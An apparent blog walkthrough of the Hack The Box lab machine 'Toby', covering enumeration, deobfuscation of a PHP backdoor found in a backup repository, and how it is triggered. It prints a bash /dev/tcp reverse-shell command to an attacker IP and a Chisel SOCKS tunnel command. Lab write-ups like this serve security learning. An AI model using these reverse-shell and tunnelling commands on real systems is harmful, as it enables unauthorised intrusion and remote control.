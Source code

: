 ```yaml
---
title: "Toby HTB - Insane Linux Box Walkthrough"
date: 2025-09-22T06:00:00Z
tags: ["insane-linux", "web", "wordpress", "gogs", "docker", "backdoor", "pam", "timing-attack", "privilege-escalation", "mysql", "ssrf"]
difficulty: ["insane"]
categories: ["HTB", "Linux"]
draft: false
description: "Complete walkthrough of Toby HTB machine featuring WordPress backdoor exploitation, Docker container pivoting, PAM backdoor discovery, and timing-based privilege escalation"
---
```


# Toby HTB - Insane Linux Box Walkthrough

{{< youtube XROkuXKgeg8 >}}

## Exploitation Steps

1. **Initial Reconnaissance with Nmap**: Performed an Nmap scan (`nmap -sC -sV -oA toby 10.10.11.121`) to identify open ports: SSH (22) and HTTP (80) on an Ubuntu server running Nginx and WordPress.

2. **Host File Modification and Website Access**: Added `wordpress.toby.htb` to `/etc/hosts` to access the WordPress blog, which mentioned a prior attack and recovery from the cloud.

3. **Subdomain Enumeration**: Used Gobuster (`gobuster vhost -u http://toby.htb -w /opt/seclists/Discovery/DNS/subdomains-top1million-20000.txt`) to discover `backup.toby.htb`, a Gogs instance.

4. **Gogs Registration and Enumeration**: Registered an account on Gogs, identified user `toby-admin`, and brute-forced repositories using Gobuster (`gobuster dir -u http://backup.toby.htb/toby-admin -w /opt/seclists/Discovery/Web-Content/raft-small-words.txt`) to find the hidden `/backup` repository.

5. **Repository Cloning and Code Analysis**: Cloned the backup repository (`git clone http://backup.toby.htb/toby-admin/backup`), extracted WordPress source code, found DB credentials in `wp-config.php`, but login failed. Scanned for malware using a PHP scanner, identified obfuscated backdoor in `comment.php`.

6. **Backdoor Deobfuscation**: Decoded the backdoor code (base64, rot13, gzip) by iteratively replacing `eval` with `print` in a scripted loop, revealing a command execution mechanism triggered via specific comment form inputs (author: `help@toby.htb`, URL: `test.toby.htb`, comment starting with `746f6279` followed by host;secret).

7. **Triggering Backdoor and Reverse Shell**: Posted a crafted comment, captured reverse connection on port 20053 using Wireshark and Netcat, decoded XOR-encrypted handshake, scripted Python backdoor handler (`bd.py`) to send commands, executed reverse shell (`bash -i >& /dev/tcp/[ATTACKER-IP]/9001 0>&1`) landing in a Docker container (WordPress).

8. **Internal Network Enumeration**: In the container, enumerated internal IPs via `/proc/net/arp` and `/proc/net/tcp` (decoded hex IPs), identified network range (172.69.0.100-104).

9. **SOCKS Proxy Setup with Chisel**: Downloaded and ran Chisel server locally, client in container (`./chisel client [ATTACKER-IP]:8001 R:socks`), set up SOCKS5 proxy on port 1080 for internal access via Proxychains and browser.
